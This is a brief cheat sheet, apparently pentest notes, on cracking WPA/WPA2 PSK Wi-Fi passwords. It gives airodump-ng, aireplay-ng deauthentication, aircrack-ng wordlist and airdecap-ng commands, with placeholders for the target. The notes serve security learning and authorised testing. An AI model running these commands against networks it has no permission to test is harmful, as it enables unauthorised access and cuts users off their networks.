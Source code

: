 Wifi protected access supports 2 methods of authentication: `PSK (pre-shared keys)` or `Enterprice (MGT)`. We'll crack PSK.
WPA, WPA2, WPA3 all rely on hashes (containing password from 8 to 63 chars) for keys.
WPA3 not yet vulnerable to attacks.

Methodology:

1) Capture <font style="color:#981f3a">4 Way Handshake</font>
		`# airodump-ng -c <channel> -w wpa --essid <name> --bssid <mac> wlan0mon`  (and keep it running while the you run the other commands below)
		`# aireplay-ng -0 1 -a <bssid> -c <client_bssid> wlan0mon` (without -c it will send a broadcast deauth)
2) Make a guess of the passphrase
		`# aircrack-ng -w <wordlist> -e <name> -b <bssid> wpa-01.cap`
3) Compare the output from the hash function to the handshake: if they match, the password guessed is correct.
		`# airdecap-ng -b <bssid> -e <name> -p <password> wpa-01.cap`  (to double check if you see decrypted packets)